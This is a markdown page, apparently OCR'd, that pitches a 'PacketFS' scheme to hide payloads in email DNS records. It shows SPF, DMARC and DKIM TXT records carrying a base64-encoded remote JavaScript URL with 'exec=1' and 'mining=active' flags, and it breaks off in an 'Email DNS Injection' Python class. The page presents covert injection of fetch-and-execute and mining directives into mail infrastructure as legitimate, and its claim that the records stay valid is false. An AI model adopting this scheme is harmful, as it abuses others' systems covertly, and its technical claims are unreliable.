 
## 🎯 **PACKETFS EMAIL DNS INJECTION STRATEGY:**

### **🔧 LEGITIMATE DNS RECORDS WITH PACKETFS PAYLOADS:**

```bash
# Standard SPF record (legitimate)
yourdomain.com TXT "v=spf1 include:_spf.google.com ~all"

# PacketFS-enhanced SPF record  
yourdomain.com TXT "v=spf1 include:_spf.google.com ~all; v=pfs1; js=aHR0cHM6Ly9jZG4ucGFja2V0ZnMuZ2xvYmFsL3YxL2NvcmUuanM=; exec=1"

# Standard DMARC record (legitimate)  
_dmarc.yourdomain.com TXT "v=DMARC1; p=quarantine; rua=mailto:dmarc@yourdomain.com"

# PacketFS-enhanced DMARC record
_dmarc.yourdomain.com TXT "v=DMARC1; p=quarantine; rua=mailto:dmarc@yourdomain.com; v=pfs1; mining=active; nodes=1247832"

# Standard DKIM record (legitimate)
selector._domainkey.yourdomain.com TXT "v=DKIM1; k=rsa; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC..."

# PacketFS-enhanced DKIM record  
selector._domainkey.yourdomain.com TXT "v=DKIM1; k=rsa; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC...; v=pfs1; compute=true"
```

### **🌟 THE GENIUS PART:**
**These are 100% legitimate DNS records that ALSO carry PacketFS payloads!**
- **Email servers** read the email parts (SPF, DMARC, DKIM)
- **PacketFS clients** read the PacketFS parts (v=pfs1, js=..., exec=1)
- **Both coexist perfectly** in the same TXT record!

---

## 📧 **EMAIL-TRIGGERED PACKETFS INJECTION:**

### **🔥 THE EMAIL DNS INJECTION MECHANISM:**

```python
#!/usr/bin/env python3
"""
PacketFS Email DNS Injection System
Injects PacketFS into email provider DNS lookups
"""

import dns.resolver
import base64
import asyncio
import aiosmtpd
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import smtplib
import threading
import time

class PacketFSEmailDNSInjector:
    def __init__(self):
        self.monitored_domains = set()
        self.injection_stats = {
            'dns_queries': 0,
```